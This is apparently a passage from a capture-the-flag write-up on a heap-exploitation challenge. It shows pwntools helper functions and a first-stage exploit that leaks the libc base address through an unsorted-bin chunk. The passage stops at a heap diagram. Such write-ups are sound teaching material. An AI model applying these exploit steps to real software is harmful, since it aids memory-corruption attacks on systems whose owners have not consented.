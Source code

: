 Before we start our exploitation, I wrote some functions to help us easier in exploiting:

```python
def raise_flower(length, name, color):
    p.sendlineafter(b' : ', b'1')
    p.sendlineafter(b' :', str(length).encode())
    p.sendafter(b' :', name)         # name use read()
    p.sendlineafter(b' :', color)    # color use scanf()

def visit_garden():
    p.sendlineafter(b' : ', b'2')

def remove_flower(idx):
    p.sendlineafter(b' : ', b'3')
    p.sendlineafter(b':', str(idx).encode())

def clean_garden():
    p.sendlineafter(b' : ', b'4')
```

### Stage 1: Leak libc address

To leak libc, we will use a well-known way for this. We will free a chunk to make it go to unsorted bin and then malloc again, the address of main arena will still exist in that chunk when we malloc and with read(), no null byte added, we can concate our input with the libc address in chunk to obtain the libc base address:

```python
raise_flower(0x420, b'0'*8, b'0'*8)
raise_flower(0x420, b'1'*8, b'1'*8)     # Avoid consolidation
remove_flower(0)

raise_flower(0x400 - 0x10, b'2'*8, b'2'*8)

visit_garden()
p.recvuntil(b'2'*8)
libc_leak = u64(p.recv(6) + b'\x00\x00')
log.info("Libc leak: " + hex(libc_leak))
libc.address = libc_leak - 0x3c3b78
log.info("Libc base: " + hex(libc.address))
```

This is when we `remove_flower(0)`, which is free a chunk with size of `0x430` and will put it in unsorted bin:

![heap-bin.png](images/heap-bin.png)